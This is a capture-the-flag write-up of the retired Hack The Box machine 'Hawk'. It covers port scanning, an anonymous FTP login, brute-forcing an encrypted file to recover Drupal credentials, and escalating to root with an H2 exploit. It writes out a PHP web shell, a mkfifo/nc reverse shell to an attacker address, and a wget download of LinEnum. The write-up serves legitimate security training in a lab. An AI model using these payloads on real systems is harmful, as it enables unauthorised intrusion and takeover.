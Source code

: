 ```yaml
---
title: Hawk Hackthebox Writeup
date: 2021-01-28 11:00:00 +0530
categories: [Hackthebox, Retired]
tags: [linux,h2 exploit,drupal,ftp anonymous,php filter module]     # TAG names should always be lowercase
image: /assets/img/hawk-hackthebox/hawk-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Hawk:~$


Column | Details
------------ | -------------
Name | Hawk
IP | 10.10.10.102
Points | 30
Os | Linux
Difficult | Medium
Creator | [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570)
Out on | 14th July 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Decrypting a file found by logging into `ftp` using *anonymous*:*anonymous*.
* Logging into the `drupal` cms.
* Getting reverse shell using the `php filter` module.
* Escalating privileges using `h2` exploit.

# Starting:~$

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Download link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/hawk-hackthebox/nmap-automator-1.png)

Full port scan using `nmap`: *nmap -p- -T4 -Pn -sV 10.10.10.102*

___
![](/assets/img/hawk-hackthebox/nmap-scan-1.png)

Let's check `Port 80`.

___
![](/assets/img/hawk-hackthebox/port-80-2.png)

It's a `drupal` webiste, let's check **/robots.txt**.

___
![](/assets/img/hawk-hackthebox/robots-txt-3.png)

I further accessed `http://10.10.10.102/CHANGELOG.txt` and found *drupal version* i.e. `Drupal 7.58`.

___
![](/assets/img/hawk-hackthebox/version-exposed-drupal-4.png)

I found an [exploit](https://www.exploit-db.com/exploits/44542) when googled the version vulnerabilities.

___
![](/assets/img/hawk-hackthebox/drupalexploitdb-5.png)

But it requires authentication of the user for that, let's check default credentials first on the login page. It didn't work.

`Port 21` is also open, let's try to login anonymously i.e. `anonymous`:`anonymous`.

___
![](/assets/img/hawk-hackthebox/ftp-anonymous-login-6.png)

We found a file in the directory, let's downloading it using the `get` command.

___
![](/assets/img/hawk-hackthebox/got-afile-7.png)

I opened the file and it looked like this:

___
![](/assets/img/hawk-hackthebox/opening-the-file-8.png)

As we know it's encrypted I ran `file` command on it to check for more details.

___
![](/assets/img/hawk-hackthebox/file-category-8.png)

It's a `openssl` and `base64` encrypted.

Let's decode it with base64 first.

**Command**: `cat .drupal.txt.enc | base64 --decode > drupal.txt.enc.decoded`

Now let's bruteforce the openssl file.

**Command**: *sudo apt-get install bruteforce-salted-openssl*

**Command**: *bruteforce-salted-openssl -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We were unable to find the password but it showed that `sha` is `256`.

___
![](/assets/img/hawk-hackthebox/ssl-brute-force-error-9.png)

Improvising the **command**: *bruteforce-salted-openssl -d sha256 -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We found the password as `friends`.

___
![](/assets/img/hawk-hackthebox/got-password-10.png)

Decoding the file

**Command**: *openssl aes-256-cbc -d -in drupal.txt.enc.decoded -out drupal.txt*

The digest is `SHA256` and cipher used is `AES-256-CBC` because that’s the default cipher that the program uses if it’s not specified

![](/assets/img/hawk-hackthebox/decoding-file-11.png)

We got a username and password as `Daniel`:`PencilKeyboardScanner123`.

___
![](/assets/img/hawk-hackthebox/got-new-username-password-12.png)

Let's try to login on the website using the above found credentials.

___
![](/assets/img/hawk-hackthebox/error-screenshot-13.png)

It threw me an error saying `invalid` credentials.

Let's try `admin`:`PencilKeyboardScanner123`. Successfully logged in.

___
![](/assets/img/hawk-hackthebox/loggedin-14.png)

Now in the `module` section turn on the `PHP filter`.

___
![](/assets/img/hawk-hackthebox/turn-on-php-filter-15.png)

Add a new content and add the following in the body --> `<?php system($_GET['cmd']); ?>`. Make sure to save the file with php.

___
![](/assets/img/hawk-hackthebox/add-php-content-16.png)

Accessing *http://10.10.10.102/node/1?cmd=whoami*, we got `www-data`.

___
![](/assets/img/hawk-hackthebox/command-execution-17.png)

Now let's go for the reverse shell, I used BurpSuite for it.

Check this for the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat)

**Payload Used**: *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 4242 >/tmp/f*

___
![](/assets/img/hawk-hackthebox/got-shell-18.png)

Got `User` Flag.

Let's send `LinEnum.sh` for escalating privileges.

**Hosting Command**: *python3 -m http.server 8081*

**wget command**: *wget http://10.10.X.X:8081/LinEnum.sh*

Ran LinEnum.sh after giving executing permissions using *chmod +x LinEnum.sh* and found this

___
![](/assets/img/hawk-hackthebox/linenum-result-19.png)

As we know `Port 8082` is running **H2 Database**, and it only allows connections locally.

___
![](/assets/img/hawk-hackthebox/port-8082-20.png)

I search for some exploits and found [this](https://www.exploit-db.com/exploits/45506)

Downloading the exploit to our victim machine using wget, and executing it we got `Root`.

____
![](/assets/img/hawk-hackthebox/got-root-21.png)

